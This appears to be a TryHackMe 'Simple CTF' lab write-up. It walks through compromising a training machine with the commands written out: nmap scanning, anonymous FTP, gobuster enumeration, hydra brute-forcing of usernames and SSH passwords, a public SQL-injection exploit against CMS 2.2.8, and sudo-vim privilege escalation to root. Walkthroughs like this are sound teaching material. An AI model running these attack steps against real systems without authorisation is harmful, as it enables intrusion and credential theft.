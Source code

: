 ```yaml
---
layout: solution
category: TryHackMe
contest_code: General
contest_name: General
problem_code: SIMPLE_CTF
problem_name: Simple CTF
comments: false
tags: security enumeration privesc
date: 2021-08-17
---
```


### An nmap scan was conducted on the machine and results shown that few services were running which included ftp, apache & ssh
```
nmap -sV -sC 10.10.82.183
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/nmap.png)

‎


### An attempt was made to log into ftp by using anonymous login which allowed us to retrieve a file. It tells us that a weak password was used for the system
```
ftp 10.10.82.183
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/ftp.png)

‎


### The website was visited however nothing was interesting thus gobutser was used to find for hidden directories and it was where we came across, few intresting directories. One of them was /simple which lead us to another web page
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183 -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result2.png)


‎


### **[Method 1]** Further enumeration was done on this page /simple by attempting to retrieve further hidden directories using gobuster. It then led us to an admin login page (/admin)
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183/simple -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster2.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/login.png)

‎


### **[Method 1]** We can attempt to use hydra on this page to crack the user and password however brute forcing 2 fields (username & password) simultaneously can take a very long time. Thus to overcome that, I clicked on "Forgot your password?"

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/username.png)

When we attempt to enter a wrong username, it redirects us back to the login page with an additional message "User Not Found"

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/incorrect_pass.png)

‎


### **[Method 1]** Thus I used hydra to retrieve the right username which in this was mitch
```
hydra -L xato-net-10-million-usernames.txt 10.10.82.183 -t 64 -e n http-post-form "/simple/admin/login.php?forogtpw=1:forgottenusername=^USER^&forgotpwform=1&loginsubmit=Submit:User Not found"
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/network_page.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/hydra.png)

‎


### **[Method 1]** After finding the right username we can attempt to crack the password using dictionary attack. However I have a choice of cracking it though the website or SSH. For this case I used ssh. Thus, I whipphed out hydra again and cracked the password using ssh. Turns out the password is "secret"
```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 10.10.82.183 ssh -t 64
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/hydra_result.png)

‎


### **[Method 2]** Further enumeration was done on this page /simple by attempting to retrieve further hidden directories using gobuster. It then led us to an install login page (/install.php)
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183/simple -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster3.png)

‎


### **[Method 2]** That install page was visited where it told us the version number of cms service which was 2.2.8

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result3.png)

‎


### **[Method 2]** Searchsploit was used to find for any exploits for that service and version and turn out it was vulnerable to SQL injection thus the exploit tool was installed for execution. 
```
searchsploit -m php/webapps/46635.py
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/searchsploit.png)

‎


### **[Method 2]** Once the exploit was executed, the username and password was retrieved. 
```
python2 ./46635.py -u http://10.10.82.183/simple -w /usr/share/wordlists/rockyou.txt --crack
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/exploit_result.png)

‎


### I then logged into SSH with the following credentials obtained and retrieved the first flag

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/ssh.png)

‎


### To perform privilege escalation, I figured out the permissions user mitch has. Fortunately, he had permissions to execute vim as sudo without password. Thus, I executed vim with sudo and executed bash command inside vim to perform privilege escalation. Thus, it allowed me to retrieve the last flag in /root directory

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/priv1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/priv2.png)

<pre 
  class="command-line" 
  data-prompt="root@machine: " 
  data-output="2"
><code class="language-bash">cat /root/root.txt
W3ll d0n3. You made it!
</code>
</pre> 
